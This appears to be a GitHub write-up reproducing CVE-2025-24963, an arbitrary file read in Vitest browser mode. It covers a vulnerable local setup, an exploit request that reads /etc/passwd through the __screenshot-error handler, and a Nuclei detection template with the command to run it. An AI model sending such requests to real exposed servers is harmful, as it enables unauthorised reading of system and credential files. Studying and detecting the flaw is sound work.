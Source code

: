 # CVE-2025-24963: Vitest Browser Mode - Local File Read

## Description:
Vitest is a testing framework powered by Vite. The `__screenshot-error` handler on the browser mode HTTP server that responds any file on the file system. Especially if the server is exposed on the network by `browser.api.host- true`, an attacker can send a request to that handler from remote to get the content of arbitrary files.This `__screenshot-error` handler on the browser mode HTTP server responds any file on the file system. This code was added by commit `2d62051`. Users explicitly exposing the browser mode server to the network by `browser.api.host- true` may get any files exposed. This issue has been addressed in versions 2.1.9 and 3.0.4. Users are advised to upgrade.

## Reference:
- https://nvd.nist.gov/vuln/detail/CVE-2025-24963
- https://github.com/advisories/GHSA-8gvc-j273-4wm5

## Vulnerable Setup

- cd /tmp && mkdir vitest && cd vitest
- npm install -D @vitest/browser@3.0.0
- npx vitest@3.0.0 init browser (press 'y' and continue)
- change, vitest.config.ts file to

```typescript
import { defineConfig } from 'vitest/config'
export default defineConfig({
  test: {
    browser: {
      provider: 'playwright', // or 'webdriverio'
      enabled: true,
      // at least one instance is required
      instances: [
        { browser: 'chromium' },
      ],
    },
  }
})
```

- Run npm run test:browser

- It opens up a chromium browser with `http://localhost:63315/` URL Loaded.

## Exploitation Steps

- Send a `GET` request to `/__screenshot-error?file=/etc/passwd` to check if the server improperly exposes sensitive system files, potentially leading to Local File Inclusion (LFI) or Arbitrary File Read vulnerabilities.

![image](https://github.com/user-attachments/assets/b6627a69-b3fe-47d2-8005-b0a1d6727134)

## Steps to Write Nuclei Template

```yaml
http:
  - raw:
      - |
        GET /__screenshot-error?file=/etc/passwd HTTP/1.1
        Host: {{Hostname}}
        Accept: */*

    matchers:
      - type: dsl
        dsl:
          - "status_code == 200"
          - "contains(content_type,'image/png')"
          - "contains_all(body,'root',':*:','/bin/')"
        condition: and
```

- Sends a `GET` request to `/__screenshot-error?file=/etc/passwd` to attempt reading the /etc/passwd file.

- Ensures the server responds with a `200` status code, confirming a successful request.

- Checks if the response has `image/png` as the Content-Type, indicating that the server is returning the requested file as an image.

- Verifies that the response body contains the expected patterns from `/etc/passwd`, including `"root", ":*:", and "/bin/"`, confirming successful file retrieval.

## Nuclei Template URL : [CVE-2025-24963](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2025/CVE-2025-24963.yaml)

## Nuclei Command :

```bash
nuclei -t CVE-2025-24963.yaml -u http://localhost:63315 -vv
```

![image](https://github.com/user-attachments/assets/8c762804-5341-40d3-94e3-f31a5fd13bf8)
